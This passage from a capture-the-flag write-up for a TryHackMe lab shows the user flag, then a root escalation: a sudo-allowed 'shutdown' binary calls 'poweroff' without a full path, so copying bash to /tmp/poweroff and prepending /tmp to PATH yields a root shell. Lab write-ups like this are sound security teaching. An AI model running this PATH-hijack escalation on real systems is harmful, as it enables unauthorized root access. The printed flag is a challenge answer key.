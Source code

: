 ~~~
-rw-r--r-- 1 fox  fox     0 May 28 21:16 .sudo_as_admin_successful
-rw-r--r-- 1 root root   38 May 31 23:38 user-flag.txt
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}
~~~

User flag: `THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}`


# Whats the contents of the root flag?

## The shutdown command

Checking fox's privileges with `sudo -l` reveals that we can execute `shutdown` as root without password.

~~~
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
~~~

Checking on [GTFOBins](https://gtfobins.github.io/) if there is anything to exploit against `shutdown` doesn't reveal anything.

Downloading this executable locally, and analyzing it with Hopper reveals that the `shutdown` executable has likely been written by the author of the challenge. It actually relies on the `poweroff` function, which is called without an absolute path, hence creating a vulnerability that we will be able to exploit. Below is the pseudo code of `main` returned by Hopper:

```c
void main() {
    system("poweroff");
    return;
}
```

## Privilege escalation

Let's exploit the vulnerability found and make a copy of `bash` that we will call instead of `poweroff`:

~~~
fox@year-of-the-fox:/usr/sbin$ cd /tmp/
fox@year-of-the-fox:/tmp$ cp /bin/bash /tmp/poweroff
fox@year-of-the-fox:/tmp$ chmod +x /tmp/poweroff 
fox@year-of-the-fox:/tmp$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/tmp$ sudo /usr/sbin/shutdown 
root@year-of-the-fox:/tmp# 
~~~
